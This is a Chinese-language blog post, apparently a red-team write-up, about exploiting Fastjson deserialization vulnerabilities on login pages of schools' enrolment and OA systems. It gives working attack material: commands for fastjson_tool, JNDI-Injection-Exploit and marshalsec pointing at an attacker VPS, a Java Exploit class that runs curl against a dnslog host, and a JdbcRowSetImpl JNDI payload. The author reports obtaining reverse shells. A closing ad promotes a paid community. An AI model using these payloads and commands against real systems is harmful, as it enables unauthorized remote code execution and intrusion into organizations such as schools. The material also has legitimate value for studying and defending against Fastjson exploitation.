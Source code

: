 #  红队评估 | 关于我在实战中遇到的Fastjson

原创 yourposec  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

Hvv五件套: Log4j，Shiro，SpringBoot，Fastjson，弱口令

  

推荐一个论坛社区，感觉文章质量挺不错的

    
    
    https://www.cnsuc.net/  
    

## 0x02 案例一: 某职业学院报名登录入口存在fastjson

某学校官网看到一个高职扩招报名入口，点击进去,输入账号密码

![](https://gitee.com/fuli009/images/raw/master/public/20220220001814.png)

后无意看到burp插件扫出改登录口存在fastjson漏洞。

一般当我们看到利用链是用小于或登录1.2.47的利用链的时候这个漏洞就是稳稳存在的，如果是HTTP请求利用链的话，只能说明改网站用的是fastjson框架，但不一定是fastjson反序列化漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20220220001816.png)

使用fastjson_tool去构造fastjson1.2.24-1.2.47左右的利用链 java -jar fastjson_tool.jar
fastjson.HLDAPServeer vps_ip 8080 "command" 然后可随意使用某条利用链后使用利用链请求，成功反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20220220001817.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001823.png)

## 0x03 案例二: 某学院OA系统fastjson

某学校OA后台登录框中测试，登录入口存在fastjson<=1.2.47的反序列化漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20220220001826.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001828.png)

通过利用链可看出该fastjson版本在1.2.47左右,这里我们直接使用

    
    
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C '[command]ping dnslog.cn' -A vps_ip  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001831.png)

这里选择的利用链要和我们服务器对应得java版本一样,这里选择jdk1.8版本得进行测试ldap和rmi，并无任意返回

后面就进入了沉思阶段，想着使用飞鸿得JNID回显利用链进行反弹，然后得然后，github突然打不开了，后发现jdk1.8和jdk1.7之间还有个spring1.2.x
和tomcat 8版本左右得利用链，想着死马当活马医算了，结果还真rce了（当然飞鸿师傅的JNDI注入回显利用工具也是可以的）

![](https://gitee.com/fuli009/images/raw/master/public/20220220001834.png)

使用该工具去反弹shell得时候我们需要去java.lang网站去进行base64编码

![](https://gitee.com/fuli009/images/raw/master/public/20220220001837.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001838.png)

成功反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20220220001841.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001843.png)

## 0x04 案例三

同样也是在某次后台登陆时，发现请求包时json格式，然后立马去看看工具里面有无fastjson成功记录，结果是有的，这种http请求利用链一般都是1.2.24反序化得利用链。

![](https://gitee.com/fuli009/images/raw/master/public/20220220001845.png)

但是看到http请求利用链心就凉了一大截，如果是HTTP请求利用链的话，之能说明改网站用的是fastjson框架，但不一定存在fastjson反序列化漏洞，这里一开始是使用了fastjson_tools和JNDI-
Injection-Exploit-1.0-SNAPSHOT-all.jar都无请求成功结果。后面使用最古老的方式，先构造Exploit.java文件。

    
    
    import java.io.BufferedReader;  
    import java.io.InputStream;  
    import java.io.InputStreamReader;  
      
    public class Exploit{  
        public Exploit() throws Exception {  
            Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "curl omqq0z.dnslog.cn"});  
            InputStream is = p.getInputStream();  
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));  
      
            String line;  
            while((line = reader.readLine()) != null) {  
                System.out.println(line);  
            }  
      
            p.waitFor();  
            is.close();  
            reader.close();  
            p.destroy();  
        }  
      
        public static void main(String[] args) throws Exception {  
        }  
    }  
    

 **附加：利用链,自己也可以去网上收集利用链**

    
    
    {  
      
        "b":{  
      
            "@type":"com.sun.rowset.JdbcRowSetImpl",  
      
            "dataSourceName":"ldap://ip:9999/Exploit",  
      
            "autoCommit":true  
      
        }  
      
    }  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001848.png)

然后使用javac Exploit.java为一个class文件，同时在同目录下开一个http服务（因为懒所以就没有截图了）

![](https://gitee.com/fuli009/images/raw/master/public/20220220001851.png)

看网上都是使用RMI格式进行rce，这里我们也是首先尝试RMI

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://vps_ip/8000/#Exploit" 9999  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001854.png)

RMI服务这边有回显，但是http服务那边无请求

![](https://gitee.com/fuli009/images/raw/master/public/20220220001856.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001859.png)

使用LDAP进行请求rce，ldap服务这边有请求回显、http服务有请求回显，命令执行成功。

![](https://gitee.com/fuli009/images/raw/master/public/20220220001902.png)

构造bash反弹，成功getshell (工具githu上全有，自己所搜就行)

![](https://gitee.com/fuli009/images/raw/master/public/20220220001905.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001908.png)

**从现在开始，星球定价150元！日后只有慢慢涨没有跌价！现在入股不亏，持续输出原创文章，还是小有干货的！**![](https://gitee.com/fuli009/images/raw/master/public/20220220001911.png)  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

红队评估 | 关于我在实战中遇到的Fastjson

最多200字，当前共字

__

发送中

[写留言](javascript:;)

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

